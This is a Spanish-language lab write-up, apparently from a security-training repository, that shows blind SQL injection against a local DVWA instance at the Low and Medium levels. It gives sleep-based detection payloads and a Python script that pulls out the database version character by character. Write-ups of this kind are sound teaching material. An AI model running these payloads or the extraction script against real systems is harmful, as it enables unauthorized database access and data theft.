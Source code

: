 # SQL Injection (Blind) - DVWA

## Nivel de seguridad: Low

La vulnerabilidad de **inyección SQL ciega** se detecta usando el siguiente payload:

```sql
1' and sleep(5)#
```

Esto provoca un retardo de **5 segundos** en la respuesta del servidor, confirmando la existencia de una vulnerabilidad de inyección.

![Blind SQL Injection - Nivel Low](assets/sql_injection_blind_low.png)

### Explotación

Se utilizó un script en Python para extraer la versión de la base de datos mediante fuerza bruta, caracter a caracter.

Fragmento del código utilizado:

```python
import requests
from requests.structures import CaseInsensitiveDict

headers = CaseInsensitiveDict()
headers["Cookie"] = "security=low; PHPSESSID=aopnk68k3t44kj83nhujm23a77"
url = 'http://127.0.0.1/DVWA/vulnerabilities/sql_blind/'

# Obtener longitud de la versión
for i in range(100):
    parameters = f'id=1'+f'+and+length(version())%3d{i}%23&Submit=Submit'
    r = requests.get(url, headers=headers, params=parameters)
    if 'User ID exists in the database' in r.text:
        length = i
        break

# Extraer versión caracter a caracter
for i in range(1, length+1):
    for s in range(30, 126):
        parameters = f'id=1'+f'+and+ascii(substring(version(),{i},{i}))%3d{s}%23&Submit=Submit'
        r = requests.get(url, headers=headers, params=parameters)
        if 'User ID exists in the database' in r.text:
            print(chr(s), end='')
            break
```

El script devuelve la versión de la base de datos:
```
11.8.0-MariaDB-2
```

---

## Nivel de seguridad: Medium

En el nivel **Medium**, la técnica de detección sigue siendo funcional, pero el payload debe ser ligeramente adaptado debido a filtros.

Payload de detección:

```sql
1 and sleep(5)
```

Al igual que en el nivel Low, se detecta un retardo en la respuesta de **5 segundos**.

![Blind SQL Injection - Nivel Medium](assets/sql_injection_blind_medium.png)

Se usó el mismo script en Python, cambiando los parámetros adecuados si fuera necesario.

---

> **Nota:** En una inyección SQL ciega, la respuesta del servidor no revela directamente datos, pero permite inferir información basándose en el tiempo de respuesta o cambios en el comportamiento.
